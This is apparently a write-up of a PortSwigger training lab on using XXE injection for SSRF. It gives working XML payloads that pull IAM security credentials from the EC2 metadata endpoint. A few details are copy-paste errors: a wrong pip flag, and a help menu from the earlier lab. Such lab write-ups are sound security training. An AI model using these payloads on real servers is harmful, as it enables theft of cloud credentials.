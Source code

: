 \+ Lab #2    : Exploiting XXE to perform SSRF attacks\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

## About:
This lab has a ```Check stock``` feature that parses XML input and returns any unexpected values in the response.<br/>
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.<br/>
To solve the lab, exploit the [XXE vulnerability](https://portswigger.net/web-security/xxe) to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

## End Goal:
Retrieve the server's IAM secret access key from the EC2 metadata endpoint. 

## Detection:
* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

## Exploitation:
### Manual:
#### Crafting the payload:
* In order to solve the lab, we need to perform a ```Server-Side Request Forgery (SSRF)``` to query and get EC2 instance metadata, which are located by default at ```/latest/meta-data/<metadata-path>```
> 📝: **NOTE:** <br/>
> For more information about EC2 metadata, refer to: https://towardsthecloud.com/amazon-ec2-instance-metadata
* In this lab, we need to extract the server's IAM secret access key, which means, we will replace ```<metadata-path>``` with ```iam```
* The malicious external entity should look to something like this:
```XML
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
```
* Now, all we need to do is to inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>``` and replace the *productId* number with a reference to our malicious external entity ```&xxe;``` just like we did in the previous lab :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Let's send the request:<br/>
  ![request3](https://user-images.githubusercontent.com/101610095/221720253-076cb0dc-091c-4f00-bfce-27f1c22ee7f4.png)
* Server's Response:<br/>
  ![response3](https://user-images.githubusercontent.com/101610095/221720300-fd110559-5019-451d-b854-58d2b7efebb7.png)
* As you can see, we got in the response a folder called ```security-credentials``` which will most likely contain the server's IAM secret access key.
* Let's modify our payload and send the request: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Server's response: <br/>
  ![2023-02-28 01_30_27-Burp Suite Community Edition v2023 1 2 - Temporary Project](https://user-images.githubusercontent.com/101610095/221721050-5998738a-b6b8-46fd-9c88-cf30a3a76cba.png)

* The ```security-credentials``` folder contains another folder called ```admin```, which contains the server's IAM secret access key.
* Final Payload: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Request:<br/>
  ![request4](https://user-images.githubusercontent.com/101610095/221721580-3f9a9d9b-4dd1-433e-817f-2fe32aa7761d.png)
* Response: <br/>
  ![response4](https://user-images.githubusercontent.com/101610095/221721615-074b59a8-dd06-4e05-b2b3-129b7fde724c.png)

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/XXE%20Injection/Lab%232/Lab-2.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
usage: Lab-1.py [-h] -u URL -f FILE [-n] [-v]

Usage Example: python3 Lab-1.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Enter the Lab URL
  -f FILE, --file FILE  Enter the path to the file you want to retrieve
  -n, --no-proxy        Do not use proxy
  -v, --verbose         Increase the verbosity level                             
```

